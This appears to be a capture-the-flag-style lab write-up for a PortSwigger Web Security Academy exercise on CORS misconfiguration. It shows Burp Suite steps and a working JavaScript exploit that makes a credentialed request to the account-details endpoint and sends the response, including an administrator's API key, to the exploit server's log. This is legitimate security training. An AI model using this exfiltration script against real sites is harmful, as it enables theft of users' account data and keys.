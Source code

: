 ### First start with adding a Target Scope in BurpSuite for our target domain.
![image](https://user-images.githubusercontent.com/86168235/127899355-b86915fc-3270-4a4b-8902-5571fa7a49b3.png)

**Note**:- Optionally, you can set a filter to *Show only in-scope items* by clicking on the **Filter** bar under **Sitemap** subtab, so that you can focus on your target domain.

![image](https://user-images.githubusercontent.com/86168235/127899507-8d798439-4e1b-460c-bb4b-ad0afd0e324e.png)



Now, login using the credentials provided to you. In burp you'll see that there is **GET** request to page `/acccountDetails` which fetches the account details for the user logging in. In the response, you'll see there is a CORS header `Access-Control-Allow-Credentials: true` which means CORS is most likely enabled for the site. Send this request to Burp repeater.

![image](https://user-images.githubusercontent.com/86168235/127900481-0102d862-0913-4569-87d6-888b66176612.png)

On the repeater tab add a `Origin` header to it and send the request. You'll see that in the response there is a new CORS header `Access-Control-Allow-Origin` which sets request origin to the `Origin` we've set. This means we can set the Origin to any url we like.

![image](https://user-images.githubusercontent.com/86168235/127900629-9ef94994-d73b-49c4-ae68-d74a44287c1a.png)


**Next**, `Go to exploit server` and add the following script in the **Body** box:-
```
<script>
const xhr = new XMLHttpRequest(),
    method = "GET",
    url = "https://acb61f441f1165dd803631dc00200052.web-security-academy.net/accountDetails";
    
function handler() {
    location='/log?body='+this.responseText;
    };
xhr.onload = handler;
xhr.open(method, url, true);
xhr.withCredentials = true;
xhr.send();

</script>
```
**Note**:- You've to edit the **url** to your own target url.

Now, if you click on `View exploit` you'll see that the response body of `/accountDetails` is shown in the url. Finally, click on `Deliver exploit to victim` and after that click on `Access log`. You'll notice that there is login by the `administrator` user and the response body along with the `api key` is logged in the exploit server.

![image](https://user-images.githubusercontent.com/86168235/127901447-b9940afd-40b8-4d05-a3ec-d63d41130405.png)
